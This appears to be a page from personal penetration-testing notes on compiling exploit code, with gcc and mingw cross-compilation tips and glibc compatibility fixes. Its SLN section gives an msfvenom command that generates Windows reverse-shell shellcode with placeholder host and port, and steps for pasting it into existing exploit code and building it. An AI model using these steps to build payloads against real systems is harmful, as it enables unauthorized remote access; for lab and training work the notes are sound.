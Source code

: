 ```yaml
---
title: Compiling File
parent: General Usage
layout: default
nav_order: 18
---
```


## C File
1. Always try to compile on target machine first!
2. For C file, `gcc xxx.c -o outputfilename`
3. For compiling C in Kali, use mingw (`sudo apt install mingw-w64`) `x86_64-w64-mingw32-gcc shell.c -o shell.exe`(64-bit) or `i686-w64-mingw32-gcc shell.c -o shell.exe`(32-bit). If cannot then find out what needs to be linked (eg adding `-lws2_32`)
4. If compile for other kernel, add `-static.` 
5. sh: [XXXXX: 4] tcsetattr: Invalid argument -> this means no tty (interactive shell)
6. ./shared-binary: error while loading shared libraries: requires glibc 2.5 or later dynamic linker -> this means you need to compile using the following: `-Wl,--hash-style=both`
7. Fix compiling error (already done): `sudo apt-get install gcc-multilib`, `sudo apt-get install gcc-9-base libgcc-9-dev libc6-dev`
8. For really old non 64 bit machine, use this when compile: `-m32 -Wl,--hash-style=both`\
   For eg: `gcc -m32 -Wall -o xx xx.c -Wl,--hash-style=both`

## SLN file
1. If you wanna replace shellcode, use the following code on Kali to generate:
   `msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f dll -f csharp`
2. Copy everything after the first `{` (usually 0xfc) to the existing exploit code.
3. On the top there just below menu bar, select (x64 and release, or similar) then build solution.
